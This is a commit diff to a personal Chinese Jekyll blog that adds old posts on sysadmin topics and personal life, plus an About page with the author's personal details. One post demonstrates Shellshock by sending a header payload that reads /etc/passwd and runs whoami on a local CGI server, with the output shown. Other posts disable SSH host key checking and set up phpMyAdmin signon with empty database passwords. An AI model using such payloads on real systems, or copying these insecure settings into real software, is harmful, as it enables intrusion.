

Before and after one commit to dcb9/dcb9.github.io, a Jekyll site: the page built from index.html, in a window 1280 px wide and 1400 px high, scrolled down 564 px. Shown: the whole window at 88% size, without its empty margins (98-1181 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; Markdown is read by kramdown in place of the engine named in the settings; before the commit the page ends 1184 px from its top, so only the background shows below that.

Commit message:
把以前的博客都同步过来了，旧的东西不能丢，那都是宝贝

```diff
--- /dev/null
+++ b/_posts/2014-09-04-grandpa-came-to-beijing.md
@@ -0,0 +1,11 @@
+---
+title: 外公来北京
+tags: 生活
+layout: default
+---
+从小我就生活在我外公外婆家里，后来又离开他们，算起来离开他们已经有十多年了，中间也就回去看了他们两三次，真的次数太少了，他们现在已经七十多岁，渐渐地我能真正陪着他们的时间到底有多少呢？虽然他们没有读过多少书，但小的时候总给我讲各种各样的故事，目的就是要教我善良，它对于我人生的任何一个决定都起着关键性的作用。
+
+
+前几年接外公外婆跟我们一起到出来走走他们不肯，可能是因为我家的情况不是很好吧，怕给我们增加负担，今年外公终于肯出来走走了。
+
+<iframe width="100%" style="height: 40em" src="http://s36.photobucket.com/user/bob_chengbin/embed/slideshow/bobsfamily/2014Mid-Autumn-Festival"></iframe>
--- /dev/null
+++ b/_posts/2014-09-08-bash-shell-complete.md
@@ -0,0 +1,61 @@
+---
+title: 使用complete来扩展Bash shell自定义脚本的键补全
+tags: shell, complete
+layout: default
+---
+我们有许多的服务器需要管理，所以就会使用到一个软件dsh 来批量操作多台机器。默认是这样子的 # dsh 各种参数加选项（但其实我们用的参数和选项的值永远都是那几个，连位置都不变 ） 指定组名  "需要执行的命令"，由于组名是定义在 /etc/dsh/group 目录下面的，所以在默认的bash shell 里面，当我想让它自动补全组名的时候是不可以的。
+
+### 目标
+1. 使用DSH 这个命令来控制多台服务器
+2. 在使用DSH的时候，组名如果能够自动补全就好了（因为我在/etc/dsh/group/ 下有 groupA groupB groupC）
+
+### 实现思路
+1. dsh 使用的远程shell 为 bash shell （其它的shell 没玩过）
+2. 在连接机器的时候如果这台机器未在 .ssh/known_hosts里面，希望系统能够自动输入yes 不然太麻烦啦！
+3. 通过 Bash shell 的 complete 来实现自定义tab键补全的功能
+
+### 实现步骤
+创建一个替代默认的dsh 的脚本，放到 /usr/local/bin/ 目录下
+
+    # file: dsh.sh
+
+    GROUP="$1"
+    COMMAND="$2"
+    dsh -o '-o StrictHostKeyChecking=no' -c  -M -g "$GROUP""$COMMAND"  # 这些参数我们使用的时候都是不变的
+
+为这个脚本创建<tab>键补全的complete 程序
+这个程序也放在 /usr/local/bin/ 目录下，这样方便以后的查看，或另一个人也能明白这个是干嘛的
+
+    # file: dsh.sh-complete
+    # dsh.sh parameter-completion
+    _UseDsh.sh ()   #  By convention, the function name
+    {                 #+ starts with an underscore.
+      local cur
+      # Pointer to current completion word.
+      # By convention, it's named "cur" but this isn't strictly necessary.
+      COMPREPLY=()   # Array variable storing the possible completions.
+      cur=${COMP_WORDS[COMP_CWORD]}
+      case "$cur" in
+        *)
+          COMPREPLY=( $( compgen -W '`cd /etc/dsh/group ; ls $cur* 2&gt; /dev/null`' ) );;
+      esac
+      return 0
+    }
+    complete -F _UseDsh.sh dsh.sh
+
+在用户登录到这台机器的时候自动source 这一个为dsh.sh 的complete的程序。
+
+    # echo "source /usr/local/bin/dsh.sh-complete">>/etc/bash/bashrc
+
+### 测试
+
+    # dsh.sh<tab><tab> （就能自动补全以下的组）
+    number26PhysicalServers number27PhysicalServers
+    最终运行的命令为：
+    查看这个组下面的机器的内核版本
+    # dsh.sh number26PhysicalServers "uname -a"
+
+### 说明
+* number26PhysicalServers number27PhysicalServers 这两个组是我事先创建好的。
+* 我这个说的是dsh 加上 bash shell complete的应用，如果对这两个不懂需要了解这相关的知识
+* 关于bash shell complete的两个文章链接，写的非常简洁易懂，建议需要的话仔细阅读，将会受益匪浅：[《Appendix J. An Introduction to Programmable Completion》](http://tldp.org/LDP/abs/html/tabexpansion.html)、[《An introduction to bash completion》](http://www.debian-administration.org/article/316/An_introduction_to_bash_completion_part_1)
--- /dev/null
+++ b/_posts/2014-09-09-gentoo-send-mail.md
@@ -0,0 +1,62 @@
+---
+title: Gentoo发送邮件实践
+tags: gentoo, mail
+layout: default
+---
+在我们的服务器上经常可能会出一些预计的错误，当服务器出错的时候，希望机器自动发送邮件给系统管理员，这样我们就能主动发现问题，并解决问题！其实这个需求就非常简单了，服务器只要可以发邮件就行，不需要什么MTA 邮件传输代理服务器。
+
+### 软件安装
+    # emerge ssmtp mailx
+
+### 配置
+    # vim /etc/ssmtp/ssmtp.conf
+
+    一般邮箱帐号的配置
+    root=youremailaccount@somedomain.com
+    mailhub=smtp.domain.com
+    rewriteDomain=
+    hostname=smtp.domain.com
+    AuthUser=your_user_name
+    AuthPass=your_password
+    FromLineOverride=Yes
+
+    公司Gmail邮箱的配置
+    root=duchengbin@jjwxc.com
+    mailhub=smtp.gmail.com:587
+    UseSTARTTLS=YES
+    AuthUser=duchengbin@jjwxc.com
+    AuthPass=密码
+    FromLineOverride=YES
+
+    配置系统中的用户和对应发件人信息，比如用apache这个用户发邮件它的发件人是谁，用root发邮件它的发件人又是谁。
+    # vim /etc/ssmtp/revaliases
+    一般邮箱帐号
+
+    root:youraccount@domain.com:smtp.domain.com
+    yournormaluser:youraccount@domain.com:smtp.domain.com
+
+    公司Gmail邮箱
+
+    root:duchengbin@gmail.com:smtp.gmail.com:587
+    yournormaluser:youraccount@gmail.com:smtp.gmail.com:587
+
+### 测试发送邮件
+
+    # mailx 接收邮件的地址
+
+    主题：
+
+    内容，输入完内容按 ctrl+D 你会看到 Cc: 如果你想抄送给谁，就在这里写上他的邮箱，然后按回车就发送了，不填代表不抄送给任何人
+
+直接使用命令行也可以发送邮件
+
+    # echo "message content" | mailx -s "test subject" 邮件
+
+以上整理的全部是参考以下链接，原文写的太棒了。[链接](http://ronnybull.com/2011/08/07/gentoo-ssmtp-sending-mail/)
+
+本人的Gentoo 内核版本为：3.4.9-gentoo
+安装的ssmtp 及 mailx 版本为：
+
+    # emerge -pv ssmtp mailx
+    [ebuild   R    ] mail-mta/ssmtp-2.64-r2  USE="ipv6 mta ssl -gnutls" 0 kB
+    [ebuild   R    ] mail-client/mailx-8.1.2.20050715-r6  0 kB
--- /dev/null
+++ b/_posts/2014-09-09-phpmyadmin-signon.md
@@ -0,0 +1,38 @@
+---
+title: PHPMyAdmin改造实现单点登录
+tags: phpmyadmin php signon
+layout: default
+---
+PHPMyAdmin单点登录的实质就是不要phpmyadmin默认的登录认证方式，而使用自己网站程序的认证系统，这样就实现了单点登录。phpmyadmin里面提供了一种signon的模式来做这件事。
+
+### 修改配置文件
+
+    # file: config.inc.php
+
+    $cfg['Servers'][$i]['auth_type'] = 'signon';
+    $cfg['Servers'][$i]['SignonSession'] = 'SignonSession'; // 为了防止多个session的键的冲突，所以单独设置 个session名称
+    $cfg['Servers'][$i]['SignonURL'] = '/signon.php'; // 自定义登录页面
+    $cfg['Servers'][$i]['LogoutURL'] = '/signon.php?logout=1'; // 自定义登录页面的退出页面
+
+### 配置登录程序
+
+    # file: /signon.php
+
+    if (isset($_GET['logout'])) {
+        session_destroy();
+        header('Location: 网站原来的退出url');
+        exit;
+    }
+
+    $userDb = array(
+        '单点登录后的用户名或id号' => '给这个人分配的数据库的用户名',
+    );
+
+    // mysql中添加用户的时候密码为空就行。然后主要就是对于现在系统的用户名和数据库的用户名的一个映射，
+    // 也可以就用现在的用户名作为数据库的用户名，不过得保证字符长度不得大于16，
+    // 中文的用户名我也没弄过，如果弄中文的可能也会出问题。
+
+    $_SESSION['PMA_single_signon_user'] = $userDb[$cookieofmanagername]; // 这个用户名一定要数据库存在并有相应的权限的。
+    $_SESSION['PMA_single_signon_password'] = '';
+
+    echo "<script>top.location.href='/phpmyadmin/index.php';</script>";
--- /dev/null
+++ b/_posts/2014-09-10-learning-git-scm.md
@@ -0,0 +1,38 @@
+---
+title: Git分布式版本控制系统学习
+tags: git 版本控制
+layout: default
+---
+Git是一个分布式的版本控制系统，svn的操作日志等都是存储在服务端，用户如果要查看修改记录等，每次都是需要联网的，我们公司目前就是使用的svn，由于经常上github所以对git有所好感，它没有svn服务器这种单点故障，在对比差异和查看以前修改的版本时无需联网，对于这么牛的东西还是得好好学习一下。
+
+## 第一章 起步
+版本控制是很早以前就提出来了，最开始的时候是本地版本控制系统，最流行的叫 rcs，后来进化到集中化版本控制系统，再才过渡到分布式版本控制系统。
+
+Git诞生于2005年，因为BitKeeper与Linux内核开源社区的合作终止。承受后Linus Tovalds不得不开发属于自己的版本控制系统，他们对本次系统的目标有：
+* 速度
+* 简单的设计
+* 对非线性开发模式的强力支持（允许上千个并行开发的分支）
+* 完全分布式
+* 有能力高效管理类似 Linux 内核一样的超大规模项目（速度和数据量）
+
+Git直接记录快照，而不是差异比较，svn会把每个文或几个文件在这个版本做了什么修改而记录下来，Git则不然，它在每一次提交都是整个项目的快照。Git中绝大多数都可以在本地完成，因为在本地磁盘上就保存了项目的历史版本信息。
+
+#### 文件的三种状态
+* 已提交 committed 表示文件已经被安全地保存在本地数据库中了
+* 已修改 modified  表示修改了某个文件，但还没有提交保存
+* 已暂存 staged    表示把已修改的文件放在下次提交时要保存的清单中。
+
+#### 第一次运行Git的配置
+使用Git之前需要配置下自己的 Git 工作环境。配置工作只需一次，以后升级时还会沿用现在的配置。
+
+    $ git config --global user.name "John Doe"
+    $ git config --global user.email johndoe@example.com
+    $ git config --global core.editor vim
+    $ git config --global merge.tool vimdiff
+    $ git config --list
+    user.name=Scott Chacon
+    user.email=schacon@gmail.com
+    color.status=auto
+    ...
+    $ git config user.name
+    Scott Chacon
--- /dev/null
+++ b/_posts/2014-09-25-bash-shock.md
@@ -0,0 +1,41 @@
+---
+title: Bash shock安全漏洞测试
+tags: bash 漏洞
+layout: default
+---
+
+昨天从微信上面，看到朋友发的最新的bash漏洞信息，感觉真的很可怕，现在互联网公司几乎都有使用到bash。现在我来带领大家实践一下使用这个漏洞的过程。
+
+### 使Apache支持bash cgi
+首先要确认Apache里面的CGI模块已经被载入 在httpd.conf 里面有一句：`LoadModule cgi_module modules/mod_cgi.so`这个必须有，然后搜索cgi-bin如果没有的话添加一段`ScriptAlias /cgi-bin/ "/var/www/cgi-bin"`
+
+### 测试bash cgi Hello world
+编辑文件：`vim /var/www/cgi-bin/hello.cgi`
+
+    #!/bin/bash
+    echo Content-type: text/html
+    echo ""
+    echo Hello, world.
+
+执行以下命令：
+
+    # chmod 755 /var/www/cgi-bin/hello.cgi`
+    # curl localhost/cgi-bin/hello.cgi
+    输出以下内容则代表Apache已经支持CGI了，就可以继续我们下面的测试
+    Hello, world.
+
+### 最可怕的测试
+
+    localhost ~ # curl -A "() { :; }; echo ; /bin/cat /etc/passwd" http://localhost/cgi-bin/hello.cgi
+    root:x:0:0:root:/root:/bin/bash
+    bin:x:1:1:bin:/bin:/bin/false
+    daemon:x:2:2:daemon:/sbin:/bin/false
+    adm:x:3:4:adm:/var/adm:/bin/false
+    lp:x:4:7:lp:/var/spool/lpd:/bin/false
+    ... ...
+
+    localhost ~ # curl -A "() { :; }; echo ; /usr/bin/whoami" http://localhost/cgi-bin/hello.cgi
+    apache
+
+有牛人对这个漏洞进行了分析，本人表示看不懂，可以看一下
+[Bash 3.0-4.3命令执行漏洞分析（by@知道创宇 lu4nx）](http://weibo.com/p/1001603758737234992740)
--- a/about/index.md
+++ b/about/index.md
@@ -3,5 +3,28 @@
 title: about bob
 ---
 
+### 基本信息
+姓名：杜承斌 英文名: Bob
 
-# about bob
+于1993年4月13日（农历的第二个四月，那年闰四月）出生于重庆市，父母亲是地地道道的重庆人，后来跟随父母来到江苏发展！
+
+### 职业信息
+目前就职于：晋江文学城——全球最大的女性小说网
+
+职位：网站运维
+
+### 爱好
+Freeline、健身、学英语
+
+### 婚姻状况
+未婚 有固定女朋友
+
+### 经历
+
+2013年在公司认识了几个比较好的哥门儿，一起去学了rhce，虽然这个证含金量不高，但还是把基础都打牢了。在这一年的沉积，终于可以在运维方面独档一面了，以前都是管理员带着的。 近期目标：在2013年拿到RHCE认证 长期目标：成为公司的技术支柱
+
+2012年3月出来工作首先去了一个国企做了二个月就走人了，最大的原因可能是不习惯那个氛围。于是乎在我在朋友的介绍下，5月就到了晋江文学城，今年一年特别的忙，本来我是做程序的，后来半路出家又做了运维，所以今年全部都在学习运维相关的知识。
+
+2011年哥哥教我PHP，学的很懵懂的时候给一个卖缝纫机线的老板，做了一个快速根据颜色编号定位于相应颜色线所存储的位置——从此爱上了程序，也希望后来能够多做类似有意义的应用。
+
+2011年10月放弃工作全心学习PHP程序，来到北京《兄弟连》专业培训LAMP的，学业完成之时，三人小组完成的《SourceCode》论坛被刻录到《细说PHP2》的光盘中发售。
```
